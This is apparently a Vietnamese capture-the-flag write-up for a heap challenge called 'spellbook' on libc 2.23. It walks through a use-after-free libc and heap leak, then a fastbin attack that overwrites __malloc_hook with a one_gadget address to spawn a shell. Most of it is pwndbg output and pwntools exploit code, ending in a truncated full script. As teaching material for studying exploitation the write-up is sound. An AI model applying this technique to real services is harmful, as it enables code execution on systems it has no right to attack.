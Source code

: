 Đề bài để sử dụng libc 2.23 nên mình sẽ làm cách leak libc rồi sử dụng fastbin attack để ghi đè malloc_hook.

```c 
pwndbg> p &__malloc_hook
$2 = (<data variable, no debug info> *) 0x7ffff7bc4b10 <__malloc_hook>
pwndbg> x/10gx 0x7ffff7bc4b10-35 
0x7ffff7bc4aed:	0xfff7bc3260000000	0x000000000000007f
0x7ffff7bc4afd:	0xfff7885ea0000000	0xfff7885a7000007f
0x7ffff7bc4b0d <__realloc_hook+5>:	0xfff78858a000007f	0x000000000000007f
0x7ffff7bc4b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7bc4b2d:	0x0000000000000000	0x0000000000000000
```
Ta thấy lân cận malloc_hook có long(0x7f), từ đó ta có "fake chunk" với size=0x70, chiến thuật của ta làm sao khi gọi hàm malloc cấp phát 0x70 bytes thì nó trả về 0x7ffff7bc4aed .
```python 
add(2,b"A"*0x10+b"chunk2",0xa0,b"B"*20)
add(3,b"A"*0x10+b"chunk3",0x68,b"C"*20)
add(4,b"A"*0x10+b"chunk4",0xa0,b"D"*20)
```
Mình tạo cho `spell2->sp` với `spell4->sp` có size 0xb0 (malloc luôn cấp phát size lớn hơn yêu cầu) để khi free ta có được unsorted bin  -> sử dụng uaf leak libc.
Tạo `spell3->sp` có size là 0x70 để khi free nó ta có fastbin 0x70.

Tận dụng uaf để leak libc (biến spell được cấp phát 0x30 bytes nên khi delete ta có luôn fastbin 0x30 để leak heap)
```python
delete(4)
delete(2)
pause()
(leaked_heap,leaked_libc)=show(2)
main_arena=int(leaked_libc[::-1].hex(),16)
leaked_heap=int(leaked_heap[::-1].hex(),16)
log.info(f"main_arena: {hex(main_arena)}")
log.info(f"leaked_heap: {hex(leaked_heap)}")
libc.address=main_arena-3951480
```
Delete chunk3 rồi ghi đè `spell3->sp->fd=&__malloc_hook-35`, khi đó ta thêm "fake chunk" có size 0x70 là fastbin 0x70.

```python 
delete(3)
edit(3,p64(leaked_heap),p64(libc.sym["__malloc_hook"]-35)) #add to 0x70 fastbin
```
Bây giờ, gọi malloc(0x68) 2 lần để nó pop các chunk ở fastbin 0x70 ra, lần đầu là `spell3->sp`, lần thứ 2 sẽ là "fake chunk", ghi đè malloc_hook trỏ tới địa chỉ one_gadget để giúp ta có được shell.
```python 
add(5,b"A"*0x10+b"chunk5",0x68,b"askkaksnksakassanasnas")
add(6,b"A"*0x10+b"chunk6",0x68,b"A"*19+p64(libc.address+0x4527a))
```
Full script
```python 
from pwn import *
from time import sleep
#context.log_level='debug'
context.binary=e=ELF("./spellbook")
libc=e.libc
#p=remote("134.209.186.13",30368)
p=e.process()
#gdb.attach(p,gdbscript="""
#set resolve-heap-via-heuristic on
#""")
def add(entry: int,type_ :bytes,power: int,sp: bytes):
	p.recv()
	p.sendline(b'1')
	p.recv()
	p.sendline(str(entry).encode())
```